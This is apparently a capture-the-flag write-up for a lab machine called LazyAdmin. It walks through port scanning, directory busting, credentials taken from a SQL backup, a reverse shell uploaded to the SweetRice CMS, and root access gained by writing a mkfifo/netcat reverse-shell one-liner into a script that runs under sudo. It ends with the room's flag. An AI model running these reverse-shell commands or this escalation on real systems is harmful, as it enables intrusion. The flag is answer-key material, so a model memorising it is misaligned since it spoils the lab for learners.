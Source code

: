 # Reconnaissance

```
Nmap 7.93 scan initiated Thu Jan 12 23:21:31 2023 as: nmap -sV -A -p 80,22 -vvv -oN README.md 10.10.168.148

Nmap scan report for 10.10.168.148
Host is up, received echo-reply ttl 63 (0.21s latency).
Scanned at 2023-01-12 23:21:38 EST for 25s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61846227c6c32917dd27459e29cb905e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=1/12%OT=22%CT=%CU=30378%PV=Y%DS=2%DC=T%G=N%TM=63C0DC6B%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 21.161 days (since Thu Dec 22 19:30:34 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   214.90 ms 10.18.0.1
2   214.95 ms 10.10.168.148

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 12 23:22:03 2023 -- 1 IP address (1 host up) scanned in 33.16 seconds
```

### Directory Busting
```
feroxbuster -u http://10.10.31.94 -v -e

$ip/content/as
[>-------------------] - 1m     13520/330141  24m     found:33      errors:1455   
[#>------------------] - 1m      2036/30000   32/s    http://10.10.31.94/ 
[##>-----------------] - 1m      3016/30000   50/s    http://10.10.31.94/icons/ 
[#>------------------] - 59s     2890/30000   48/s    http://10.10.31.94/content/ 
[>-------------------] - 56s      970/30000   17/s    http://10.10.31.94/content/js/ 
[#>------------------] - 55s     1832/30000   32/s    http://10.10.31.94/content/inc/ 
[####################] - 15s    30000/30000   0/s     http://10.10.31.94/content/images/ => Directory listing
[>-------------------] - 51s     1301/30000   25/s    http://10.10.31.94/content/_themes/ 
[>-------------------] - 46s      627/30000   13/s    http://10.10.31.94/content/attachment/ 
[>-------------------] - 39s      565/30000   14/s    http://10.10.31.94/content/inc/lang/ 
[####################] - 28s    30000/30000   0/s     http://10.10.31.94/content/inc/font/ => Directory listing
[>-------------------] - 31s      211/30000   6/s     http://10.10.31.94/content/as/ 
[--------------------] - 0s         0/30000   0/s     http://10.10.31.94/content/_themes/default/ 
[--------------------] - 0s         0/30000   0/s     http://10.10.31.94/content/as/lib/ 
```


once I am able to log in to the webserver, I go to ads page and upload a reverse shell

### upon getting the backup sql, and inspecting i am able to get admin and password
```
cat mysql_bakup_20191129023059-1.5.1.sql | grep -ir pass
mysql_bakup_20191129023059-1.5.1.sql:  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```
### inside the 10.10.31.94/content directory I was able to get this credentials
user: manager
pass: Password123

### i used searchploit to get the sweetrice exploit

```
┌──(aaron㉿kali)-[~/thm/lazyadmin]
└─$ nc -l -v -p 4433
listening on [any] 4433 ...
10.10.31.94: inverse host lookup failed: Unknown host
connect to [10.18.70.19] from (UNKNOWN) [10.10.31.94] 58546
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 08:13:10 up 13 min,  0 users,  load average: 0.06, 1.94, 2.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 444 >/tmp/f" > /etc/copy.sh
```

└─$ nc -lnvp 4444   
listening on [any] 4444 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.129.83] 40224
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 04:02:02 up 11 min,  0 users,  load average: 0.24, 0.66, 0.69
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bin/sh -i 2>&1|nc 10.18.70.19 5554 >/tmp/f
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 5554 > /tmp/f" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl

# I created another listening port and upon running I am successfully become root
```
┌──(aaron㉿kali)-[~/thm/lazyadmin]
└─$ nc -lnvp 5554
listening on [any] 5554 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.129.83] 35054
/bin/sh: 0: can't access tty; job control turned off
whoami
root
 cd /
ls
bin
boot
cdrom

var
vmlinuz
vmlinuz.old
# cd /root
# ls
root.txt
# cat root/txt  
cat: root/txt: No such file or directory
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
# 
```

